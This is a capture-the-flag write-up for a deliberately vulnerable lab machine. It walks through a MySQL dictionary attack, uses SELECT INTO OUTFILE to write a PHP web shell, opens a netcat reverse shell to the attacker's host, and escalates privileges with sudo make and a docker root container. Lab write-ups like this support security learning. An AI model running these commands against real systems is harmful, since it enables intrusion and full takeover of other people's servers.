## Nmap



We can see lot of ports are open.

***

## MySQL

I didn't find anything good on the website so I decided to check the mysql, again I didn't had any logins for that so I started a dictionary attack on MySQL service, firsts I used `admin` as username but that didn't gave anything then I used `root` and that game me the password.



There was nothing in any of the table of any database.

So I moved on to look at the other port like `8080`.



We can see that there is a directory listing for `/var/tmp`. I tried to download those images and do some steganography but I didn't find anything. After spending some time I realise that we can try to use `mysql` to put a file on that directory.

I ran

```sql
select "<?php system($_GET['cmd']); ?>" into outfile '/var/tmp/rce.php';
```



And now we can see a `rce.php` file on that directory listing on port 8080.



Now that file is there we can run command. To check if it is working I read `/home`



Let's run the `reverse shell` code to get a reverse shell.

```bash
➜ http -b http://192.168.56.139:8080/rce.php\?cmd\="nc -e /bin/sh 192.168.56.1 4444"
```



And then I got the `user.txt`



## Privilege escalation

Since I was on the system I decided to run my enumeration script. I noticed that `docker` was on the `dusk` group so we need to find a way to become `dusk` then we can use docker to escalate to root.


Since I didn't find anything for `dusk` on the enumeration so I checked the www-data's sudo right by running `sudo -l` and got some.



Then I used [gtfo](https://github.com/mzfr/gtfo) to find those on [gtfobin](https://gtfobins.github.io/)


We know that we have the sudo right so we will use the last one

```bash
COMMAND='/bin/sh'
sudo -u dusk make -s --eval=$'x:\n\t-'"$COMMAND"
```



Since now we are `dusk` we know we can easiy exploit the `docker` to become root. To exploit this we can use the famous [chrisfosterelli/rootplease](https://hub.docker.com/r/chrisfosterelli/rootplease/)

You can directly run it as

```bash
docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
```

That didn't worked for me directly so I cloned the repository and then I ran

```bash
$ docker build -t rootplease .
$ docker run
```



This gives use the rootshell and now we can read the root flag.



***

This was a really simple but amazing machine. Thanks to []() for making this machine.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
